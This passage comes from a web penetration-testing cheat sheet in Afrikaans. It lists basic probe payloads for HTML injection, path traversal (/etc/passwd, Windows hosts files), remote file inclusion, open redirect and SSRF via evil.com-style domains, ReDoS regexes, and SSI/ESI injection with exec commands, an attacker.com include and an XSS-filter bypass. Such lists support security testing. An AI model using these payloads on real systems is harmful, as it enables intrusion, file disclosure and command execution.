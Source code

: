 ### Basiese Toetse
```markup
<br><b><h1>THIS IS AND INJECTED TITLE </h1>
```
## [Lêer Insluiting/Pad Traversering](../file-inclusion/)

### Basiese Toetse
```bash
/etc/passwd
../../../../../../etc/hosts
..\..\..\..\..\..\etc/hosts
/etc/hostname
../../../../../../etc/hosts
C:/windows/system32/drivers/etc/hosts
../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\windows/system32/drivers/etc/hosts
http://asdasdasdasd.burpcollab.com/mal.php
\\asdasdasdasd.burpcollab.com/mal.php
```
## [Open Redirect](../open-redirect.md) / [Server Side Request Forgery](../ssrf-server-side-request-forgery/)

### Basiese Toetse
```bash
www.whitelisted.com
www.whitelisted.com.evil.com
https://google.com
//google.com
javascript:alert(1)
```
## [ReDoS](../regular-expression-denial-of-service-redos.md)

### Basiese Toetse
```bash
(\\w*)+$
([a-zA-Z]+)*$
((a+)+)+$
```
## [Server Side Inclusion/Edge Side Inclusion](../server-side-inclusion-edge-side-inclusion-injection.md)

### Basiese Toetse
```markup
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="ls" -->
<esi:include src=http://attacker.com/>
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```
### Polygloths
```markup
<!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://attacker.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```
## [Server Side Request Forgery](../ssrf-server-side-request-forgery/)